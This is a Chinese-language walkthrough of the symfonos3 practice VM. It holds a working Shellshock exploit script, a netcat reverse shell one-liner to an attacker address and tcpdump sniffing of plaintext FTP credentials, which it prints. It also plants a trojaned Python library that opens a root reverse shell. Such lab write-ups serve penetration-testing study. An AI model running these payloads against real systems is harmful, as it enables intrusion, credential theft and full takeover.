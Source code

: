 # symfonos3

![image-20200627201400855](assets/symfonos3.assets/image-20200627201400855.png)

![image-20200627201426195](assets/symfonos3.assets/image-20200627201426195.png)

FTP禁止匿名访问

![image-20200627202426387](assets/symfonos3.assets/image-20200627202426387.png)

![image-20200627202441732](assets/symfonos3.assets/image-20200627202441732.png)

http目录

![image-20200627203728486](assets/symfonos3.assets/image-20200627203728486.png)

![image-20200627203854067](assets/symfonos3.assets/image-20200627203854067.png)

![image-20200627203752624](assets/symfonos3.assets/image-20200627203752624.png)

![image-20200627203816063](assets/symfonos3.assets/image-20200627203816063.png)

![image-20200627203919588](assets/symfonos3.assets/image-20200627203919588.png)

看页面猜测underworld应该是/cgi-bin目录下的可执行文件，也就是应该存在shellshock，而主页源代码内的提示也提到underworld，先从这里入手。

shellshock，python shell脚本

```python
#!/usr/bin/python
# 使用示例
# python shellshock_shell.py 192.168.56.1
# $ id
# uid=48(apache) gid=48(apache) groups=48(apache)
# $ pwd
# /var/www/cgi-bin

import requests, sys
from base64 import b64encode

victim_ip = sys.argv[1]

while True:
    command = b64encode(raw_input('$ ').strip())
    headers = {
        'User-Agent': '() { :; }; echo \'Content-type: text/html\'; echo; export PATH=$PATH:/usr/bin:/bin:/sbin; echo \'%s\' | base64 -d | sh 2>&1' % command
    }

    print requests.get('http://192.168.43.226/cgi-bin/underworld', headers=headers).text.strip()		#注意修改这里为目标地址路径。

```

![image-20200627204842605](assets/symfonos3.assets/image-20200627204842605.png)

shellshock 脚本所产生的shell，理论上是webshell为了更方便我们使用，在1337端口建立监听，并在shellshock中使用以下方式以获得更方便使用的shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 1337 >/tmp/f
```

![image-20200627205839456](assets/symfonos3.assets/image-20200627205839456.png)

先查看用户

![image-20200627211901544](assets/symfonos3.assets/image-20200627211901544.png)

使用脚本用来更进一步枚举

![image-20200627210809435](assets/symfonos3.assets/image-20200627210809435.png)



![image-20200627211421722](assets/symfonos3.assets/image-20200627211421722.png)

看来会使用密码登录proftpd

ftp是明文传输，我们可以尝试使用tcpdump进行浏览监测，从而尝试得到明文凭证

```bash
tcpdump -D		#查看可监控的设备

tcpdump -v -i lo port 21	#实时监测并屏幕输出，由于目标是本机登录ftp，所以应该监听lo环回. 虽然能更快的找到答案，但结束时需要ctrl c ，会断掉shell
tcpdump -w file.pcap -i lo		#输出到pcap文件，可以下载到kali使用wireshark分析。
```

![image-20200627212700226](assets/symfonos3.assets/image-20200627212700226.png)

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

![image-20200627212928919](assets/symfonos3.assets/image-20200627212928919.png)

![image-20200627213251359](assets/symfonos3.assets/image-20200627213251359.png)

```bash
hades:PTpZTfU4vxgzvRBE
```



```bash
ssh hades@192.168.43.226
```

![image-20200627214321200](assets/symfonos3.assets/image-20200627214321200.png)

我们之前已经通过枚举知道了root定时执行的一个脚本`/opt/ftpclient/ftpclient.py`，但是之前没权限查看，现在再次尝试

![image-20200627214845945](assets/symfonos3.assets/image-20200627214845945.png)

看权限，显然无法对脚本做任何事情。（注。靶机是3.1版本已经修复了之前3.0版本直接可写的问题）

而脚本引用了ftplib

我们可以通过伪造lib提权。

检查lib文件夹权限

![image-20200627223633330](assets/symfonos3.assets/image-20200627223633330.png)

![image-20200627223413591](assets/symfonos3.assets/image-20200627223413591.png)

首先在kali本地伪造lib文件

```python
import socket,subprocess,os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.43.66",1338))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

工作目录建立http服务

```bash
python -m SimpleHTTPServer 8080
```

备份靶机原库文件，并将伪造文件上传至靶机

```bash
mv ftplib.py ftplib.py.bak
wget http://192.168.43.66:8080/ftplib.py
```

![image-20200627224045383](assets/symfonos3.assets/image-20200627224045383.png)

在kali端口1338建立监听。root

![image-20200627224311226](assets/symfonos3.assets/image-20200627224311226.png)